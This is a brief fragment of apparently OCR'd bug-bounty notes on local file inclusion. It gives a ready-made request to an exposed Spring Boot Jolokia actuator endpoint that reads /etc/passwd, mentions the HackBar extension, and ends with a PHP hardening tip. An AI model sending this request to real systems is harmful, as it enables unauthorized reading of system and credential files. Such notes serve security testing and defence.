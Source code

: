 -> if you find /actuator/jolokia/ endpoint in your target then escalate to LFI -> `https://target[.]com/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd`


-> HackBar extension burp


-> Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.